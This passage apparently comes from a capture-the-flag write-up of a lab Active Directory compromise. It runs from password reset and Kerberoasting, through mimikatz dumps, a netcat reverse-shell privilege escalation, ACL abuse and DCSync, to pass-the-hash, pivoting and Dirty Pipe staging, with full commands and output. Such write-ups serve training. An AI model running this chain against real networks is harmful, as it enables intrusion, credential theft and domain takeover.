SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\hporter:Gr8hambino!
SMB         172.16.8.3      445    DC01             [*] Enumerated shares
SMB         172.16.8.3      445    DC01             Share           Permissions     Remark
SMB         172.16.8.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.8.3      445    DC01             NETLOGON        READ            Logon server share
SMB         172.16.8.3      445    DC01             SYSVOL          READ            Logon server share
```

BloodHound data is collected using this account:

```bash
sudo bloodhound-python -u 'hporter' -p 'Gr8hambino!' -ns 172.16.8.3 -d INLANEFREIGHT.LOCAL -c all --zip
```

```
INFO: Done in 03M 05S
INFO: Compressing output into 20261113132230_bloodhound.zip
```

---
## ForceChangePassword

Analysis of the collected data shows `hporter` holds `ForceChangePassword` over `ssmalls`:



The right is used to reset the password without knowing the current one:

```bash
net rpc password "ssmalls" 'Password123!' -U "INLANEFREIGHT.LOCAL"/"hporter"%'Gr8hambino!' -S DC01
```

```bash
nxc smb 172.16.8.3 -u 'ssmalls' -p 'Password123!' --shares
```

```
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Password123!
SMB         172.16.8.3      445    DC01             [*] Enumerated shares
SMB         172.16.8.3      445    DC01             Share           Permissions     Remark
SMB         172.16.8.3      445    DC01             Department Shares READ            Share for department users
SMB         172.16.8.3      445    DC01             NETLOGON        READ            Logon server share
SMB         172.16.8.3      445    DC01             SYSVOL          READ            Logon server share
```

---

## Kerberoasting

`ssmalls` is used to request service tickets for every SPN account in the domain:


```bash
impacket-GetUserSPNs INLANEFREIGHT.LOCAL/ssmalls -dc-ip 172.16.8.3 -request -outputfile spn.hash
```

```
ServicePrincipalName                         Name          MemberOf  PasswordLastSet             LastLogon                   Delegation
-------------------------------------------  ------------  --------  --------------------------  --------------------------  ----------
adfsconnect/azure01.inlanefreight.local      azureconnect            2022-06-01 14:32:56.506935  <never>
backupjob/veam001.inlanefreight.local        backupjob               2022-06-01 14:33:00.038178  <never>
MSSQLSvc/DB01.inlanefreight.local:1433       mssqlsvc                2022-06-01 14:32:31.178803  <never>
MSSQLSvc/DEVTEST.inlanefreight.local:1433    sqltest                 2022-06-01 14:32:45.522556  <never>
MSSQLSvc/QA001.inlanefreight.local:1433      sqlqa                   2022-06-01 14:32:49.256932  <never>
MSSQLSvc/SQL-DEV01.inlanefreight.local:1433  sqldev                  2022-06-01 14:32:41.913173  <never>
MSSQLSvc/SQL-WEB01.inlanefreight.local:1433  mssqladm                2022-06-01 14:32:52.897615  2022-06-23 00:45:20.688469
MSSQLSvc/SQL01.inlanefreight.local:1433      svc_sql                 2022-06-01 14:32:34.850677  <never>
MSSQLSvc/SQL02.inlanefreight.local:1433      sqlprod                 2022-06-01 14:32:38.381946  <never>
SAP/APP01.inlanefreight.local                sapsso                  2022-06-01 14:33:07.225672  <never>
SAPsvc/SAP01.inlanefreight.local             sapvc                   2022-06-01 14:33:10.678799  <never>
vmware/vc.inlanefreight.local                vmwarescvc              2022-06-01 14:33:03.600665  <never>
```

Only the `backupjob` ticket cracks against `rockyou.txt`:

```bash
hashcat -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*backupjob$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/backupjob*$...:lucky7
```

```bash
nxc smb 172.16.8.3 -u backupjob -p lucky7
```

```
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\backupjob:lucky7
```

This account grants no further access and is not pursued.

---
## SMB Share Enumeration

`ssmalls` is a member of an IT admin group, so the shares are enumerated again with this account:


```bash
smbmap -u ssmalls -p Password123! -H 172.16.8.3 -r 'Department Shares' --depth 5
```

```
[+] IP: 172.16.8.3:445  Name: DC01.INLANEFREIGHT.LOCAL  Status: Authenticated
        Disk                                                    Permissions     Comment
        Department Shares                                       READ ONLY       Share for department users
        ./Department Shares
        dr--r--r--                0 Wed Jun  1 14:34:56 2022    Accounting
        dr--r--r--                0 Wed Jun  1 14:36:00 2022    Executives
        dr--r--r--                0 Wed Jun  1 14:35:53 2022    Finance
        dr--r--r--                0 Wed Jun  1 14:35:29 2022    HR
        dr--r--r--                0 Wed Jun  1 14:35:14 2022    IT
        dr--r--r--                0 Wed Jun  1 14:35:45 2022    Marketing
        dr--r--r--                0 Wed Jun  1 14:35:37 2022    R&D
        ./Department Shares//IT/Private
        dr--r--r--                0 Wed Jun  1 14:35:16 2022    Development
        ./Department Shares//IT/Private/Development
        fr--r--r--             4001 Wed Jun  1 14:35:16 2022    SQL Express Backup.ps1
```


```bash
smbclient -U ssmalls "//172.16.8.3/Department Shares" --password='Password123!'
```

```
smb: \> cd IT\Private\Development
smb: \IT\Private\Development\> get "SQL Express Backup.ps1"
getting file \IT\Private\Development\SQL Express Backup.ps1 of size 4001 as SQL Express Backup.ps1 (23.3 KiloBytes/sec) (average 23.3 KiloBytes/sec)
```

The script contains hardcoded SQL credentials for a `backupadm` account:

```powershell
$serverName = ".\SQLExpress"
$mySrvConn = new-object Microsoft.SqlServer.Management.Common.ServerConnection
$mySrvConn.ServerInstance=$serverName
$mySrvConn.LoginSecure = $false
$mySrvConn.Login = "backupadm"
$mySrvConn.Password = "!qazXSW@"
```

```bash
nxc smb 172.16.8.3 -u backupadm -p '!qazXSW@'
```

```
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@
```

---

## MS01 (172.16.8.50)

The recovered credentials are valid for WinRM across the domain, including `ACADEMY-AEN-MS0`:


```bash
nxc winrm 172.16.8.0/24 -u backupadm -p '!qazXSW@'
```

```
WINRM       172.16.8.3      5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL)
WINRM       172.16.8.20     5985   ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL)
WINRM       172.16.8.50     5985   ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL)
WINRM       172.16.8.3      5985   DC01             [-] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@
WINRM       172.16.8.20     5985   ACADEMY-AEN-DEV  [-] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@
WINRM       172.16.8.50     5985   ACADEMY-AEN-MS0  [+] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@ (Pwn3d!)
```

```bash
evil-winrm -i 172.16.8.50 -u backupadm -p '!qazXSW@'
```

`C:\` contains two files of interest:

```
*Evil-WinRM* PS C:\> ls
    Directory: C:\
d-----         6/1/2022   2:17 PM                panther
d-r---       11/14/2026  11:54 AM                Users
-a----         6/1/2022   2:17 PM         186880 budget_data.xlsx
-a----         6/1/2022   2:21 PM           2190 Inlanefreight.kdbx
```

```
*Evil-WinRM* PS C:\> cd panther
*Evil-WinRM* PS C:\panther> ls
    Directory: C:\panther
-a----         6/1/2022   2:17 PM           6995 unattend.xml
```

---

## Credential Harvesting on MS01 

Both files are downloaded and converted into crackable hash formats:

```bash
*Evil-WinRM* PS C:\> download budget_data.xlsx
*Evil-WinRM* PS C:\> download Inlanefreight.kdbx
```

```bash
keepass2john Inlanefreight.kdbx > Inlanefreight.hash
john Inlanefreight.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Welcome1         (Inlanefreight)
1g 0:00:02:20 DONE (2026-11-14 13:05) 0.007139g/s 288.4p/s
```


```bash
file budget_data.xlsx
```

```
budget_data.xlsx: CDFV2 Encrypted
```

```bash
office2john budget_data.xlsx > budget_data.hash
john budget_data.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
lucky7           (budget_data.xlsx)
1g 0:00:00:01 DONE (2026-11-14 13:27) 0.5050g/s 436.3p/s
```

Opening both files confirms their content, but neither discloses anything useful for further access:



.

---

## RDP Access as ilfserveradm

The `unattend.xml` file found under `C:\panther` discloses local credentials for `ilfserveradm`:


```xml
<AutoLogon>
    <Password><Value>Sys26Admin</Value><PlainText>true</PlainText></Password>
    <Enabled>true</Enabled>
    <Username>ilfserveradm</Username>
</AutoLogon>
...
<LocalAccount wcm:action="add">
    <Password><Value>Sys26Admin</Value><PlainText>true</PlainText></Password>
    <Group>User</Group>
    <Name>ilfserveradm</Name>
</LocalAccount>
```

`ilfserveradm:Sys26Admin` is confirmed to be a member of **Remote Desktop Users**:

```bash
*Evil-WinRM* PS C:\Users\backupadm\Documents> net user ilfserveradm
```

```
User name                    ilfserveradm
Account active               Yes
Password last set            6/1/2022 1:17:17 PM
Password expires             Never
Local Group Memberships      *Remote Desktop Users
Global Group memberships     *None
```

```bash
xfreerdp3 /u:ilfserveradm /p:Sys26Admin /v:172.16.8.50 /drive:share,/home/kali/tools
```

---

## Privilege Escalation on MS01

`Program Files (x86)` contains a Sysax Automation installation:



The product is vulnerable to local privilege escalation through its triggered-task feature ([PoC reference](https://www.exploit-db.com/exploits/50834)):

```
1. Create folder c:\temp
2. Download netcat (nc.exe) to c:\temp
3. Create file 'pwn.bat' in c:\temp with contents:
     c:\temp\nc.exe localhost 1337 -e cmd
4. Open command prompt and netcat listener: nc -nlvvp 1337
5. Open sysaxschedscp.exe from C:\Program Files (x86)\SysaxAutomation
6. Select Setup Scheduled/Triggered Tasks:
     - Add task (Triggered)
     - Update folder to monitor to be c:\temp
     - Check 'Run task if a file is added to the monitor folder or subfolder(s)'
     - Choose 'Run any other Program' and choose c:\temp\pwn.bat
     - Uncheck 'Login as the following user to run task'
     - Finish and Save
7. Create new text file in c:\temp
8. Check netcat listener -> nt authority\system
```

`pwn.bat` is written to the Desktop, pointing to a local netcat listener:



A triggered task is configured in `sysaxschedscp.exe`:



The task monitors the Desktop folder and fires when a file is added to it:



It is set to run `pwn.bat` as "any other program", with the "Login as the following user" option left unchecked, so it runs in the scheduler service's own privileged context:

./ms01/7.png

./ms01/8.png

Dropping a new file into the monitored folder fires the task, and the netcat listener catches a SYSTEM shell:

./ms01/9.png

```
C:\Users\ilfserveradm\Desktop>nc64.exe -lvnp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50122
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

---

## Flag (MS01)

```
C:\Windows\system32>cd c:\users\ilfserveradm\desktop
C:\Windows\system32>type flag.txt
type flag.txt
33a9d46de4015e7b3b0ad592a9394720
```

**Flag:**

```
33a9d46de4015e7b3b0ad592a9394720
```

---

## Credential Harvesting on MS01 (Local Admin)

With local admin access, `mimikatz` is run again:

bash

```bash
c:\Users\ilfserveradm\Desktop>.\mimikatz
```

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
```

```
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc
Local SID : S-1-5-21-1020326033-369054202-3290056218

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 0850f84bbd902729bb3af737405cc788

RID  : 000003ea (1002)
User : ilfserveradm
  Hash NTLM: 22712976f35dc45157952a07c7ffc774
```

bash

```bash
mimikatz # lsadump::secrets
```

```
Domain : ACADEMY-AEN-MS0
Domain FQDN : INLANEFREIGHT.LOCAL

Secret  : DefaultPassword
cur/text: DBAilfreight1!
```

Local users on the host:

bash

```bash
c:\Users>dir
```

```
 Directory of c:\Users
06/01/2022  02:52 PM    <DIR>          Administrator
11/14/2026  11:54 AM    <DIR>          backupadm
11/14/2026  12:49 PM    <DIR>          ilfserveradm
10/06/2021  11:31 AM    <DIR>          lab_adm
06/01/2022  01:52 PM    <DIR>          mssqladm
```

The `DefaultPassword` secret works domain-wide for `mssqladm`:

bash

```bash
nxc smb 172.16.8.0/24 -u mssqladm -p 'DBAilfreight1!'
```

```
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
SMB         172.16.8.50     445    ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 x64 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None)
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] INLANEFREIGHT.LOCAL\mssqladm:DBAilfreight1!
SMB         172.16.8.50     445    ACADEMY-AEN-MS0  [+] INLANEFREIGHT.LOCAL\mssqladm:DBAilfreight1!
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\mssqladm:DBAilfreight1!
```

---

## ACL Abuse Chain to Domain Admin

BloodHound shows `mssqladm` has `GenericWrite` over `ttimmons`, who in turn has `GenericAll` over the **Server Admins** group:

./bh/2.png

**Server Admins** holds `GetChangesInFilteredSet` over the domain object, which is sufficient to perform a DCSync:

./bh/3.png

### Targeted Kerberoasting — ttimmons

The `GenericWrite` right over `ttimmons` is abused to add a temporary SPN and request a ticket for it:

bash

```bash
python3 targetedKerberoast.py -v -d 'INLANEFREIGHT.LOCAL' -u 'mssqladm' -p 'DBAilfreight1!' --dc-ip 172.16.8.3 --request-user ttimmons
```

```
[*] Starting kerberoast attacks
[*] Attacking user (ttimmons)
[VERBOSE] SPN added successfully for (ttimmons)
[+] Printing hash for (ttimmons)
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$...
[VERBOSE] SPN removed successfully for (ttimmons)
```

bash

```bash
hashcat -m 13100 ttimmons.hash /usr/share/wordlists/rockyou.txt
```

```
Status...........: Cracked
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL...
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
...:Repeat09
```

`ttimmons` then adds itself to **Server Admins** using its `GenericAll` right:

bash

```bash
net rpc group addmem "Server Admins" "ttimmons" -U "INLANEFREIGHT.LOCAL"/"ttimmons"%"Repeat09" -S DC01
```

### DCSync

bash

```bash
impacket-secretsdump 'INLANEFREIGHT.LOCAL'/'ttimmons':'Repeat09'@'DC01' -just-dc-user Administrator
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e5564060258ea787ddbb6e6afa2:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:547ff3f4cc75b6dbfe7fee1f7e3f966d0bc6e689858dc25250c8f9a4191b8b91
Administrator:aes128-cts-hmac-sha1-96:0477b3d27dd7e44398b27b3d69a9fb43
Administrator:des-cbc-md5:61e31c8c2c0bd9cd
```

---

## Domain Admin Access

The dumped NTLM hash authenticates directly to the domain controller via pass-the-hash:

bash

```bash
evil-winrm -i 172.16.8.3 -u Administrator -H fd1f7e5564060258ea787ddbb6e6afa2
```

```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop
-a----         6/1/2022  11:34 AM             32 flag.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
7c09eb1fff981654a3bb3b4a4e0d176a
```

---

## Flag (Domain Admin)

**Flag:**

```
7c09eb1fff981654a3bb3b4a4e0d176a
```

---

## Post-Exploitation — Pivoting to 172.16.9.0/23

`DC01` has a second network interface on an unexplored range:

bash

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ipconfig
```

```
Ethernet adapter Ethernet0:
   IPv4 Address. . . . . . . . . . . : 172.16.8.3
   Default Gateway . . . . . . . . . : 172.16.8.1

Ethernet adapter Ethernet1:
   IPv4 Address. . . . . . . . . . . : 172.16.9.3
   Default Gateway . . . . . . . . . : 172.16.9.1
```

A second ligolo listener is chained through the existing `dmz01` session:

bash

```bash
[Agent : srvadm@dmz01] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

The agent binary is uploaded to `DC01` via `evil-winrm` and run, connecting back through the chained listener:

powershell

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\agent.exe -connect 172.16.8.120:11601 -ignore-cert
```

```
time="2026-11-15T08:34:22-08:00" level=warning msg="warning, certificate validation disabled"
time="2026-11-15T08:34:22-08:00" level=info msg="Connection established" addr="172.16.8.120:11601"
```

Once the new agent joins, a route to `172.16.9.0/23` is added:

```
[Agent : srvadm@dmz01] » INFO[0657] Agent joined.                                 id=0050568a9bb0 name="INLANEFREIGHT\\Administrator@DC01" remote="127.0.0.1:45122"
[Agent : srvadm@dmz01] » session
? Specify a session : 2 - INLANEFREIGHT\Administrator@DC01 - 127.0.0.1:45122 - 0050568a9bb0
[Agent : INLANEFREIGHT\Administrator@DC01] » autoroute
? Select routes to add: 172.16.9.3/23
? Create a new interface or use an existing one? Create a new interface
? Enter interface name (leave empty for random name):
INFO[0707] Generating a random interface name...
INFO[0707] Using interface name gameleatherhead
? Start the tunnel? Yes
INFO[0711] Starting tunnel to INLANEFREIGHT\Administrator@DC01 (0050568a9bb0)
```

A sweep finds one additional live host:

bash

```bash
fping -asgq 172.16.9.0/24
```

```
172.16.9.3
172.16.9.25
     254 targets
       2 alive
     252 unreachable
```

bash

```bash
nmap -sC -sV 172.16.9.25
```

```
Nmap scan report for 172.16.9.25
Host is up (0.011s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
```

Only SSH is reachable on `172.16.9.25`. A DCSync-based NTDS.dit dump was also attempted from `DC01` but did not yield anything useful for further access.

---

## SMB Share Enumeration — RSA Private Keys

With Domain Admin access, the Department Shares are browsed once more:

bash

```bash
smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:fd1f7e5564060258ea787ddbb6e6afa2' -H 172.16.8.3 -r "Department Shares" --depth 5
```

```
[+] IP: 172.16.8.3:445  Name: DC01.INLANEFREIGHT.LOCAL  Status: ADMIN!!!
        Disk                                                    Permissions     Comment
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        Department Shares                                       READ ONLY       Share for department users
        ./Department Shares//IT/Private/Networking
        fr--r--r--             1706 Wed Jun  1 14:35:27 2022    harry-id_rsa
        fr--r--r--             1702 Wed Jun  1 14:35:24 2022    james-id_rsa
        fr--r--r--             1706 Wed Jun  1 14:35:22 2022    ssmallsadm-id_rsa
        NETLOGON                                                READ, WRITE     Logon server share
        SYSVOL                                                  READ, WRITE     Logon server share
```

bash

```bash
smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:fd1f7e5564060258ea787ddbb6e6afa2' -H 172.16.8.3 --download "Department Shares//IT/Private/Networking/ssmallsadm-id_rsa"
```

---

## MGMT01 (172.16.9.25) — SSH Access via Stolen Private Key

bash

```bash
chmod 600 ssmallsadm-id_rsa
ssh ssmallsadm@172.16.9.25 -i ssmallsadm-id_rsa
```

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.10.0-051000-generic x86_64)

  IPv4 address for ens160: 172.16.9.25

Last login: Mon May 23 08:48:13 2022 from 172.16.0.1
ssmallsadm@MGMT01:~$ id
uid=1001(ssmallsadm) gid=1001(ssmallsadm) groups=1001(ssmallsadm)
```

bash

```bash
ssmallsadm@MGMT01:~$ cat flag.txt
```

**Flag:**

```
3c4996521690cc76446894da2bf7dd8f
```

---

## Privilege Escalation on MGMT01 — Dirty Pipe (CVE-2022-0847)

The kernel version is affected by Dirty Pipe:

bash

```bash
ssmallsadm@MGMT01:~$ uname -a
```

```
Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

`MGMT01` has no direct route to Kali, so the PoC files (`compile.sh`, `exploit-1.c`, `exploit-2.c`) are relayed in two hops: uploaded to `DC01` over `evil-winrm`, then sent on from `DC01` to `MGMT01` over the pivot using `nc64.exe`:

bash

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload compile.sh
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload exploit-1.c
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload exploit-2.c
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload nc64.exe
```

powershell

```powershell
# on DC01, sending each file out
*Evil-WinRM* PS C:\Users\Administrator\Documents> cmd /c "nc64.exe 172.16.9.25 8000 < compile.sh"
*Evil-WinRM* PS C:\Users\Administrator\Documents> cmd /c "nc64.exe 172.16.9.25 8000 < exploit-1.c"
*Evil-WinRM* PS C:\Users\Administrator\Documents> cmd /c "nc64.exe 172.16.9.25 8000 < exploit-2.c"
```
